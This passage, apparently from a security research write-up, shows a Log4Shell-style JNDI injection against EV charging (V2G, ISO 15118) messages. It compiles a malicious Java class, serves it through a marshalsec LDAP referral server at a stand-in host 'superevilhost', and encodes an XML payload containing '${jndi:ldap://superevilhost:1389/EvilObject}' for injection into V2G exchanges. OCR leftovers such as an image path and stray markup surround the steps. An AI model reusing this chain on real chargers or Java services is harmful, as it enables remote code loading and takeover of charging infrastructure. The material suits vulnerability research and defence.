 >     }  
> 
>    
> 
> }
> 
> 
> After typing VeryEvil, we compiled it:
> 
> 
> $ javac VeryEvil.java  
> 
> $ ls VeryEvil.*  
> 
> VeryEvil.**class**  VeryEvil.java
> 
> 
> 


Then, we called the *marshalsec* tool to distribute it and ran a web server on port TCP 80 to forward the class in parallel by default: 



> $ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://superevilhost#VeryEvil  
> 
> Listening on 0.0.0.0:1389
> 
> 
> 



> java -jar target/V2Gdecoder-jar-with-dependencies.jar -x -s '<?xml version="1.0" encoding="UTF-8"?><**ns4:supportedAppProtocolReq** xmlns:ns4="urn:iso:15118:2:2010:AppProtocol" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:ns3="http://www.w3.org/2001/XMLSchema"><**AppProtocol**><**ProtocolNamespace**>${jndi:ldap://superevilhost:1389/EvilObject}</**ProtocolNamespace**><**VersionNumberMajor**>2</**VersionNumberMajor**><**VersionNumberMinor**>0</**VersionNumberMinor**><**SchemaID**>10</**SchemaID**><**Priority**>1</**Priority**></**AppProtocol**></**ns4:supportedAppProtocolReq**>'  
> 
> 80017123DB53732349D363230B81D1797B9BAB832B932BB34B63437B9BA1D18999C1C97A2BB34B627B13532B1BA3E8020000280040
> 
> 
> 


We finished by readapting the *jndi* URL (as seen in the preceding code) to inject during V2G exchanges. 





